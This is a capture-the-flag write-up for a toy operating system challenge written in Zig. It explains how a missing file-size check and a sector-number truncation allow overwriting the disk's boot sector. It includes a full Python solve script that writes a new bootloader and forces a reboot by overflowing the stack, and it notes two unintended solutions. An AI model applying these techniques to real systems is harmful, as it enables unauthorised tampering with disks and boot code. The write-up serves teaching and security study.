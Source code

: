 
## Provided files
- dist.zip

## Intended

When run locally, it spits out some initialization text and then a menu:
```text noheader
[+] entering mbrsector
[+] switching to bootsector
[+] enter bootsector
[+] switching to extended bootloader
[+] enter extended bootloader
[+] boot args:
- drive: 0x80
- partition: partitions.Partition{ .attributes = 128, .start_chs = 257, .type = 
1, .end_chs = 16143, .start_lba = 63, .sectors = 945 }
- index: 0
[+] init disk
FAT FS TYPE: fat32
[+] switching to bootstrap
[+] enter bootstrap stagenter code32
leave code32
enter code64
stack bottom: 0000000000FE0000
stack top: 00000000013E0000
first availible sector: 945

0. print flag variable
1. input program
2. echo on
3. echo off
4. exec file
5. open file
6. seek file
7. make file
8. write file
```

The menu code belongs to `src/shell.zig` and gives us a few options.

- input program: executes an limited interpreted language that is not exploitable
- echo on/echo off: toggles shell echo
- exec file: feeds the current file's contents through the interpreter
- open file: opens a file handle
- seek file: seeks to a position within the current file
- make file: creates a file
- write file: writes data to the current file

The bugs in this challenge is are problems in the implementation of the filesystem in `src/fs.zig` and `src/disk.zig`:

### Arbitrary file size
The code that handles creating a file does not perform any sort of file size validation.
```rs noheader
pub fn new(name: []const u8, size: usize) !*File {
    var file = try manager.create(File);
    try file.init(name, size);
    try files.put(name, file);
    return file;
}
```

### Sector truncation
When writing to a sector, the write function accepts a relative sector of size `usize` but truncates the sector to a `u28`.
```rs noheader
fn _write(relative: usize, buffer: [*]align(1) u16, sectors: u8) !void {
    var status: u8 = wait();

    const absolute = @truncate(u28, partition.start + relative);
    term.printf("writing to {} sectors to logical block {}\r\n", .{ sectors, absolute });

    // -- snip --
}
```

The two bugs allow arbitrary access to the underlying disk. If a large enough file is supplied, one can seek to an offset that when converted to disk sectors is truncated to an arbitrary disk sector of an attacker's choosing.
```rs noheader
pub const File = struct {
    name: []const u8,
    cache: [512]u8,
    sector: usize,
    size: usize,
    offset: usize,

    const Self = @This();

    // -- snip --

    pub fn write(self: *Self, buffer: []u8) !void {
        if (self.offset + buffer.len >= self.size) {
            return std.os.AccessError.InputTooLong;
        }

        var result = self.offset + buffer.len;
        defer self.offset = result;
        defer self.reload() catch |err| die(err);

        try disk.write(self.sector + self.offset / 512, @ptrCast([*]align(1) u16, buffer)[0 .. buffer.len / 2]);
    }

    pub fn seek(self: *Self, offset: usize) !void {
        if (offset >= self.size) {
            return std.os.AccessError.InputTooLong;
        }
        self.offset = offset;
        try self.reload();
    }

    // -- snip --
};
```

Using this out of bounds write to the disk, we can write to any sector of the disk. Sector 0 of the disk always contains the bootloader that the processor boots from, so we can overwrite the old bootloader with a new bootloader that dumps the disk to search for the flag.

However once the old bootloader is overwritten, the processor still needs to reboot in order to execute the new bootloader. This is where the interpreter comes into play. The interpreter makes heavy use of recursion, which can quickly overflow the stack of the application. Due to the application running in ring 0, as soon as the stack overflows the whole thing triple faults and reboots, executing our new bootloader.

### Solution
```python filename="solve.py"
from pwn import *
from subprocess import run

run(["nasm", "-f", "bin", "-o", "boot.bin", "boot.asm"], check=True)

if args.HOST and args.PORT:
    p = remote(args.HOST, args.PORT)
else:
    p = remote("localhost", 5000)

""" wait for remote to catch up """
def wait():
    p.recvuntil(b"8. write file\n")

""" new bootloader """
bootcode = open("boot.bin", "rb").read()
assert len(bootcode) == 512
m28 = (1 << 28) - 1
""" read filesystem sector offset """
p.recvuntil(b"first availible sector: ")
offset = int(p.recvline().strip())
""" calculate offset to write to sector zero """
zero = (0 - 63 - offset & m28) * 512

log.info(f"offset: {offset}")

""" create massive file """
wait()
log.info(f"creating file")
p.send(b"7\ntmp\n9999999999999999\n")

""" seek to malicious offset """
wait()
log.info(f"seeking to offset")
p.send(b"6\n" + str(zero).encode() + b"\n")

""" write new bootloader """
wait()
log.info(f"writing new bootloader")
p.send(b"8\n512\n" + bootcode + b"\n")
p.recvuntil(b"writing to ")
count = int(p.recvuntil(b" ").strip(b" "))
p.recvuntil(b"sectors to logical block ")
sector = int(p.recvline().strip())
log.info(f"count: {count}, sector: {sector}")

""" disable echo to reduce output """
wait()
log.info(f"disabling echo")
p.send(b"3\n")

""" force the interpreter to recurse and overflow the stack """
wait()
log.info(f"rebooting remote")
p.send(b"1\n" + b"{" * 0x2000 + b"\n")

p.interactive(textonly=True)
```

## Unintendeds

### Leak flag using exec errors
Using the same giant file / arbitrary seek bug from before, it is possible to leak the flag character by character using the file exec option because it immediately errors and leaks a character. Lesson learned. Dont create helpful errors.

### iPXE command line tricks
If you overwrite the bootloader signature `0xAA55` and reboot, it fails to boot and allows access to the iPXE commandline. Once there it allows a dump of the disk which can be used to extract the flag.